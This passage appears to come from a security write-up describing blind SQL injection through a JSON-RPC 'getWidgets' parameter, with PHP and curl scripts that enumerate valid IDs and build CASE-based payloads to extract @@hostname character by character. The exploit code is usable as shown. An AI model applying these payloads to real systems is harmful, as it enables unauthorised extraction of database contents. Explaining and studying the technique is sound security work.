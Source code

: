 So, because the result of this query is 7, I know the first character in @@hostname is g :)

The slight problem here is that I couldn’t just neatly use the numbers 1 to 26 for each letter, because not all possible IDs had corresponding assets. I needed to find enough valid IDs to make this work.

I wrote a little PHP script to save me from typing out the numbers from 1 to 100 and tried passing in 1,2,3...99,100 as the parameter. I used a little bit of command line trickery to find a list of all the unique valid IDs:

```
tom@bash:~▶ cat genrange.php 
<?php
$payload = [
    "jsonrpc" => "2.0",
    "method"  => "getWidgets",
    "params"  => [
        implode(",", range(1, 100))
    ]
];
echo json_encode($payload);
tom@bash:~▶ curl --compressed -s $APIURL -d @<(php genrange.php) | gron | grep type_id | awk '{print $NF}' | sort -nu
2;
9;
10;
11;
...snip...
37;
38;
39;
40;
```

In total I found 31 valid IDs, which isn’t nearly enough to cover even the ASCII character set, but it’s enough to cover all the lower-case letters and even a few numbers for good measure. It’s also a lot better than only being able to answer yes/no questions.

I knocked together another hacky PHP script to make generating my payload a little easier:

```
tom@bash:~▶ cat gensql.php 
<?php
// first argument to the script is the char to fetch
$char = $argv[1]?? 1;
// The payload
$sql = '
    SELECT CASE SUBSTRING(@@hostname, '.$char.', 1)
        WHEN "a" THEN 2
        WHEN "b" THEN 8
        WHEN "c" THEN 9
        WHEN "d" THEN 10
...snip...
        WHEN "z" THEN 35
        WHEN "0" THEN 36
        WHEN "1" THEN 37
        WHEN "2" THEN 38
        WHEN "3" THEN 39
        WHEN "4" THEN 40
    END
';
$wrapper = [
    "jsonrpc" => "2.0",
    "method" => "getWidgets",
    "params" => [$sql]
];
$payload = json_encode($wrapper);
```